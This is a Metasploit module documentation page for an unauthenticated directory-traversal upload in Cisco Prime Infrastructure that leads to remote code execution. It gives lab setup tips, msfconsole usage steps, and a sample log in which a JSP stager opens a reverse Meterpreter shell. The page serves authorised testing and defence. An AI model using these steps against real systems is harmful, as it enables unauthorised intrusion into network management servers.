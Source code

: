 ## Description

This module exploits a vulnerability found in Cisco Prime Infrastructure. The issue is that the TarArchive Java class the HA Health Monitor component uses does not check for any directory traversals while unpacking a Tar file, which can be abused by a remote user to leverage the UploadServlet class to upload a JSP payload to the Apache Tomcat's web apps directory, and gain arbitrary remote code execution. Note that authentication is not required to exploit this vulnerability.

## Vulnerable Application

Cisco Prime Infrastructure releases prior to 3.4.1, 3.5, and 3.6, also EPN Manager releases prior to 3.0.1. The Metasploit module is specifically designed to target CPI 3.4.0.

## Notes on Setup

While developing the exploit, I happended to run into several issues that made the process more difficut. It was really because I didn't have the best hardware to work with, but in case you are trying to set up Cisco Prime Infrastructure as VMs like me, you may want to read this first.

Special thanks to Steven Seeley (mr_me) for providing some of the most important setup notes himself.

**Hardware Requirements**

There are two machines you want to set up using the same ISO, the first is called the "primary" server, and the other is "secondary" (High Availability) server. They both require the same hardware:

* 4 CPU Cores.
* 12288 MB of RAM (12GB).
* 350GB of hard drive space, but you may still run out of it in days.
* Both VMs should be on the same network.

**SCP**

In case you want to transfer files, you will probably use scp. Before you do that, run the following script as admin on CPI. It will generate the credentials you need to scp files:

```
/opt/CSCOlumos/bin/getSCPcredentials.sh
```

By default, the CPI's SSH server's authentication method is password, you may end up running scp like this:

```
scp -r -o PreferredAuthentications=password admin@ip:/tmp/something.zip .
```

**Out of Space Issues**

Cisco Prime Infrastructure requires a lot of space on the primary server. If it ever reaches to a point where it shuts down unexpectedly, you may not be able to bring the NCS services back again (such as port 80, 443, or 8082). At least for me, I couldn't figure out. If that's the case, you may need to reinstall the VM.

**Unstable HA Connection**

Sometimes the primary and secondary may experience some difficulty staying connected. If this happens, try to do the following on both machines:

1. Run `ncs stop` to stop the services
2. Run `ncs cleanup`
3. Run `ncs start`, this may take 10 to 30 minutes to finish.
4. Finally, run `ncs status` to make sure they are talking.

If the secondary server isn't working with the primary, then the HealthMonitor service may not be in the exploitable condition.

## Verification Steps

1. Start msfconsole
2. Do `use exploit/linux/http/cpi_tararchive_upload`
3. Do `set payload` to select the preferred payload
4. `set rhosts [ip]`
5. `run`, this should give you a shell

## Scenarios

**Running the check**

```
msf5 exploit(linux/http/cpi_tararchive_upload) > check
[*] 192.168.0.23:8082 - The target service is running, but could not be validated.
```

**Exploiting the service**

```
msf5 exploit(linux/http/cpi_tararchive_upload) > run

[*] Started reverse TCP handler on 192.168.0.21:4444 
[*] Uploading tar file (3072 bytes)
[*] Executing JSP stager...
[*] Sending stage (985320 bytes) to 192.168.0.23
[*] Meterpreter session 3 opened (192.168.0.21:4444 -> 192.168.0.23:57127) at 2019-06-07 02:50:13 -0500
[!] This exploit may require manual cleanup of '/tmp/UdqUlWsFjp.bin' on the target
[!] This exploit may require manual cleanup of 'apache-tomcat-8.5.16/webapps/ROOT/kmeEmkzdep.jsp' on the target

meterpreter > 
[+] Deleted /tmp/UdqUlWsFjp.bin
[+] Deleted apache-tomcat-8.5.16/webapps/ROOT/kmeEmkzdep.jsp
```
